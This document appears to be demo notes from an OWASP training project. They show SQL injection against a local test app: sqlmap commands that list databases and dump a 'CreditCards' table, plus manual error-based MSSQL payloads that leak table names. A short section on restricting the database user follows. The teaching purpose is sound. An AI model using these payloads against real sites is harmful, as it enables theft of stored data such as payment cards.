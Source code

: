 # Materials

## App url
https://localhost:44394/products1?id=1

## sqlmap

```
python sqlmap.py -u "https://localhost:44394/products1?id=1" --batch --dbs
```

```
python sqlmap.py -u "https://localhost:44394/products1?id=1" --batch --tables -D Owasp
```

```
D:\Duperele\Soft\sqlmap>python sqlmap.py -u "https://localhost:44394/products1?id=1" --batch --dump -T CreditCards -D Owasp
```

```
D:\Duperele\Soft\sqlmap>python sqlmap.py -u "https://localhost:44394/products1?id=1" --batch --dump -T CreditCards -D Owasp --force-pivoting
```

## SQL Injection step-by-step
* https://localhost:44394/products1?id=1 or 1=1
  * all products
* https://localhost:44394/products1?id=x
  * discovered we get exceptions from sql server
  * SqlException: Invalid column name 'x'
* shows all tables in database:
```
(
	select name from sysobjects where id = (
		select top 1 id from (
			select top 1 id from sysobjects where xtype=char(85) order by id asc
		) sq order by id desc
	)
)
```
* https://localhost:44394/products1?id=(select+name+from+sysobjects+where+id+in+(+select+top+1+id+from+(+select+top+1+id+from+sysobjects+where+xtype=char(85)+order+by+id+asc+)+sq+order+by+id+desc))
  * SqlException: Conversion failed when converting the nvarchar value 'Products' to data type int.
    * **conversion error**
* Now increment the second "1"
* https://localhost:44394/products1?id=(select+name+from+sysobjects+where+id+in+(+select+top+1+id+from+(+select+top+2+id+from+sysobjects+where+xtype=char(85)+order+by+id+asc+)+sq+order+by+id+desc))
  * SqlException: Conversion failed when converting the nvarchar value 'CreditCards' to data type int.

## Restrict db user
* Owasp database > Security > Users > owaspTestUser
  * Membership - uncheck dbowner
  * Securables > Search > All objects of types > OK > Tables > OK
    * Product/CreditCard > Grant Select > Column permissions